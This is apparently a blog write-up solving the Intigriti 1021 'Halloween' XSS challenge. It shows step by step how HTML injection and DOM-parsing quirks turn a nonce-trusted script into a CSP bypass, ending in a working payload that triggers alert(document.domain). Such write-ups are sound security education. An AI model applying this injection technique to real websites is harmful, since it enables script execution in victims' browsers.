





+++
date = '2025-01-27T17:07:19+08:00'
draft = false
title = '1021 Halloween Has Taken Over'
+++

# Challenge description

https://bugology.intigriti.io/intigriti-monthly-challenges/1021

Find a way to execute arbitrary javascript on the challenge page

The solution

- Should work on the latest version of Chrome and FireFox.
- Should execute `alert(document.domain)`.
- Should leverage a cross site scripting vulnerability on this domain.
- Shouldn't be self-XSS or related to MiTM attacks.

https://challenge-1021.intigriti.io/challenge/challenge.php

# Finding html injection

In the HTML source, there is a clue that the server accepts `html` query parameter.

```html
<div id="html" class="text">
  <h1 class="light">HALLOWEEN HAS TAKEN OVER!</h1>
  ARE YOU SCARED?<br />ARE YOU STILL SANE?<br />NOBODY CAN BREAK THIS!<br />NOBODY
  CAN SAVE INTIGRITI<br />I USE ?html= TO CONVEY THESE MESSAGES<br />I'LL
  RELEASE INTIGRITI FROM MY WRATH... <br />... AFTER YOU POP AN XSS<br />ELSE,
  INTIGRITI IS MINE!<br />SIGNED* 1337Witch69
</div>
```

Evaluating HTML injection sink:

```sh
https://challenge-1021.intigriti.io/challenge/challenge.php?html=sink
```

Sink output:

```html
</div>
    <!-- !!! -->
      <div id="html" class="text"><h1 class="light">sink</div>
    <!-- !!! -->
    <div class="a">'"</div>
```

We should close the `h1` and `div` element.

`?html=</h1></div><p>HTML Injection sink</p>`

```html
</div>
    <!-- !!! -->
      <div id="html" class="text"><h1 class="light"></h1></div><p>HTML Injection sink</p></div>
    <!-- !!! -->
    <div class="a">'"</div>
```

# HTML Injection to XSS

Take note that the CSP is set by the server when the HTML consisting of the meta tag is returned.

```
<meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src 'unsafe-eval' 'strict-dynamic' 'nonce-81b5ced40fb716fe900c00633c4ed971'; style-src 'nonce-f98e99cabdecce703c02d7ae917794ad'"
    />

    <style nonce="f98e99cabdecce703c02d7ae917794ad">
```

As far as I know, we are not able to override the CSP by injecting a meta tag as the DOM has already been loaded. The `unsafe-eval` directive suggests that a script with valid nonce is able to evaluate javascript from strings.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_eval_expressions

There is a peculiar HTML div element with the attribute ` class=" bat-attribute"`. The whitespace in the class attribute may affect the DOM parsing of the subsequent HTML elements. We also see the subsequent script elements containing the valid nonce.

```html
<div class=" bat-overlay">
...
</div>
<script nonce="81b5ced40fb716fe900c00633c4ed971">document.getElementById('lock').onclick = () => {document.getElementById('lock').classList.toggle('unlocked');}</script>
    <script nonce="81b5ced40fb716fe900c00633c4ed971">
      window.addEventListener("DOMContentLoaded", function () {
        e = `)]}'` + new URL(location.href).searchParams.get("xss");
        c = document.getElementById("body").lastElementChild;
        if (c.id === "intigriti") {
          l = c.lastElementChild;
          i = l.innerHTML.trim();
          f = i.substr(i.length - 4);
          e = f + e;
        }
        let s = document.createElement("script");
        s.type = "text/javascript";
        s.appendChild(document.createTextNode(e));
        document.body.appendChild(s);
      });
    </script>
  </div>
    <!-- !!! -->
      <div id="html" class="text"><h1 class="light"></h1></div><p>HTML Injection sink</p></div>
    <!-- !!! -->
    <div class="a">'"</div>
  </body>
```

First, let's validate if the div element with class `bat-overlay` is loaded in the DOM via browser console.

```js
document.querySelector(".bat-overlay");

// Returns div class
```

Seems like the browser is able to handle the whitespace in the class value.

Next, let's validate if the script elements were loaded properly.

```js
document.getElementsByTagName("script");
// returns scripts
```

The scripts with the valid nonce are properly loaded into the DOM.

Let's inspect this script to see how we can perform XSS.

```html
</script>
    <script nonce="81b5ced40fb716fe900c00633c4ed971">
      window.addEventListener("DOMContentLoaded", function () {
        e = `)]}'` + new URL(location.href).searchParams.get("xss");
        c = document.getElementById("body").lastElementChild;
        if (c.id === "intigriti") {
          l = c.lastElementChild;
          i = l.innerHTML.trim();
          f = i.substr(i.length - 4);
          e = f + e;
        }
        let s = document.createElement("script");
        s.type = "text/javascript";
        s.appendChild(document.createTextNode(e));
        document.body.appendChild(s);
      });
    </script>
```

The script is executed when DOM is completely parsed.
https://developer.mozilla.org/en-US/docs/Web/API/Document/DOMContentLoaded_event

user input is via `?xss=` query parameter will be appended to `)]}'` and stored in variable `e`. The last child element of the element with `id="body"` will be selected to the variable `c`. If the element pointed by `c` has an `id="intigriti"` then the last child element will be selected and the value of its innerHTML will be trimmed and the last 4 characters will be stored in variable `f`. Finally, the value of `e` will be `f + e`.

Next, the script will create a script element and add it as a child of the `body` element in the DOM.

By the default response, we have a `body` element with `id="body"` but not any element with `id="intigriti"`. Luckily for us, we can perform HTML injection for the server to return the injected HTML as part of the response. If the HTML injection context is purely on the client side, it may not be possible to exploit the page as the script event listener is only triggered once the DOM is loaded.

We can inject elements with `id="intigriti"`. However, our element has to be the last child element of the `body` element in the DOM.

We can try the following to inject the DOM to see if the `li` element is the last element of the DOM upon completion of parsing.
`?html=</h1></div><ul id="intigriti"><li>HTML Injection sink</li>`

When we inspect the HTML (not view source), we see the innerHTML extracted is not from the `li` element.


The `pan>` seems to be derived from a `span` tag from the DOM. We would have assumed that the last child element is the `li` tag where our HTML injection is. and expected `<script type="text/javascript">sink)]}`.

However, it depends on how the DOM tree is being built. We can do a further analysis on the DOM tree via JS console.

Last element of body is script because this is post DOM parsing where the vulnerable script appends a `script` element to the end of `body`.

```js
document.getElementById("body").lastElementChild;
// <script type="text/javascript">
```

We should instead check the second last child element of `body`. We will see our `ul` element from HTML injection.

```js
document.getElementById("body").children[
  document.getElementById("body").children.length - 2
];
// <ul id="intigriti">
```

When we check the lastElementChild of `ul`, we see `div id="container"`.

```js
document.getElementById("body").children[
  document.getElementById("body").children.length - 2
].lastElementChild;
// <div id="container">
```



I tried with some other nested element combinations but to no avail. On hindsight, reading some other solutions, `select` and nested `option` HTML elements will result in the last child element to be `option`. Which is a strange behaviour for the DOM parsing as it suggests that there is a parent-child relationship between `select` and `option` nodes in the DOM tree.

What if we induce the browser to resolve missing closing tags? Will this event be after the DOM is fully parsed/post-DOMContentLoaded? So many questions to be answered, hopefully by a browser/HTML expert.

Anyways, it seems like leaving out the closing tag `</li>` will cause the last element post-DOMContentLoaded to be the `li` element. Perhaps the parser resolves this node at the end which updates that current state of the DOM to have `li` as the last child element instead.

`?html=</h1></div><ul id="intigriti"><li>HTML Injection sink` will result in the following:

Again, check the second last child element of `body` to know the last child element before the script element is added. We see the `ul` element from HTML injection which is the same as when we had closing tag `</li>`

```js
document.getElementById("body").children[
  document.getElementById("body").children.length - 2
];
// <ul id="intigriti">
```

When we check the lastElementChild of `ul`, we see `li`.

```js
document.getElementById("body").children[
  document.getElementById("body").children.length - 2
].lastElementChild;
// <li>
```

However, this time we see the appended script element has `div>)]}` in the final DOM rendered. Which seems may be from the last 3 characters of `</div>`. Perhaps the event of resolving missing closing tags happens right after DOMContentLoaded. If so, then maybe at that current state, the DOM assumes that `<div id="container">...</div>` is a child of `li` since the closing of `li` tag hasn't been resolved yet.



Let's try to add another tag without closing the `li` tag. Will the
`?html=</h1></div><ul id="intigriti"><li>HTML Injection sink<ul>` will result in the following:

```js
document.getElementById("body").children[
  document.getElementById("body").children.length - 2
];
// <ul id="intigriti">
```

We got the same `li` element.

```js
document.getElementById("body").children[
  document.getElementById("body").children.length - 2
].lastElementChild;
// <li>
```

But this time when we see the final state of `script`, we see `/ul>)]}`.


Strangely, if you try another `li` instead, we will get `div>)]}`. If we try some arbitrary tag like `tr` it will also be the `div>)]}`. This seems to suggest that only certain combinations of tags are recognised to have parent-child relationship in the DOM. Of course, this may deviate depending on how each browser implements the HTML RFC (if there is such a flexibility).

Our HTML injection point should be after the nested `ul` element, `?html=</h1></div><ul id="intigriti"><li><ul>HTML Injection sink`. The innerHTML of nested `ul` is as such:

```js
l =
  document.getElementById("body").children[
    document.getElementById("body").children.length - 2
  ].lastElementChild;
// <li>

i = l.innerHTML.trim();
/* 
`<ul>HTML Injection sink
    <!-- !!! -->
    <div class="a">'"</div>
  
  <div id="container">
      <span>I</span>
      <span id="extra-flicker">N</span>
      <span>T</span>
      <span>I</span>
      <div id="broken">
          <span id="y">G</span>
      </div>
      <span>R</span>
      <div id="broken">
          <span id="y">I</span>
      </div>
      <span>T</span>
      <span>I</span>
  </div>

</ul>` 
*/

f = i.substring(i.length - 4);
// returns the string /ul>
```

Seems like the innerHTML of nested `ul` before the browser closes the missing tag is the rest of the text response until before the `</html>` tag.

The `substring(i.length - 4)` will take the last 4 characters. In this case it is `/ul>` and append with `e` which is `)]}'` + user input of `xss` query parameter.

We can change the nested `ul` to see how the DOM is rendered after the script element is added (see in developer mode -> Inspector)

```js
// <ul> will result in /ul>)]}'null

i = document.getElementById("body").children[document.getElementById("body").children.length - 2].lastElementChild.lastElementChild
// <ul>

// Try to not add > for <ul
// <ul... wil result in ul<>)]}'null
i = ...
// <ul< div="">

// Try closing the ) with (
// <ul( will result l(<>)]}'null
i = ...
// <ul(< div="">
```

When we use `<ul(` the last 4 characters of the innerHTML is `l(<>`. We see the DOM tries to solve the opening tag `<ul(<...` to `<ul(<>` and also resolves the closing tag to be `</ul(<>`.

```js
// l = <li>, l.innerHTML = <ul(
i = l.innerHTML.trim()`<ul(< div="">
    <!-- !!! -->
    <div class="a">'"</div>
  
  <div id="container">
      <span>I</span>
      <span id="extra-flicker">N</span>
      <span>T</span>
      <span>I</span>
      <div id="broken">
          <span id="y">G</span>
      </div>
      <span>R</span>
      <div id="broken">
          <span id="y">I</span>
      </div>
      <span>T</span>
      <span>I</span>
  </div>

</ul(<>`;
```

Javascript context is being interpreted by the browser in our HTML injection sink. Also it is worth noting that `/.../` in JS is a regex.



We can try to complete the arbitrary regex in our HTML injection sink. Since the last 4 characters are obtained from innerHTML and appended before `)]}`, we need to ensure that the first character of the 4 characters is `/`. Next we should also close the brackets used in regex as special characters.

I tried `<ul[(>` but got `l[(>)]}'`. This doesn't meet our requirement of ensuring `/` is the first character since the closing tag is `</ul[(>` and the last four characters is `l[(>`.

Using `<ul[>` will result in the closing tag of `</ul[>` and last the four characters being `ul[>`. We may need to use a `u` instead of `ul`.

Using `<u[>` will result in the closing tag of `</u[>` and last the four characters being `u[<`.

The null can be controlled with the query parameter `&xss=sink`. So `?html=</h1></div><ul id-"intigriti"><li><u[>&xss=sink` will result in

```html
<script type="text/javascript">
  /u[>)]}'sink
</script>
```

We can change the XSS sink to close the regex and end of line for JavaScript before adding XSS JS payload.

`?html=</h1></div><ul id-"intigriti"><li><u[>&xss=/;alert(document.domain)` will result in the XSS.

```html
<script type="text/javascript">
  /u[>)]}'/;
  alert(document.domain);
</script>
```

# Lessons learned

Bypassing CSP for the target page is possible with HTML injection and DOM manipulation, provided the attack vector leads to unsafe execution of whitelisted scripts.

HTML injection cannot override CSP with `meta` tag when the DOM is already rendered.

Browsers handle DOM parsing in a quirky manner. Resolving of incomplete tags for closing `>` or closing tags happen after the event DOMContentLoaded (may differ for browsers, to be confirmed by the browser experts). This is important to take note as we have to consider the state of the DOM of where our attacker control is at.

A certain combination of HTML elements seems to have a parent-child relationship established by browser during parsing and construction of the DOM tree. For example, `ul` and `li`, `selector` and `option`. If a custom element is used as a nested element, a parent-child relationship will be established with the parent element.
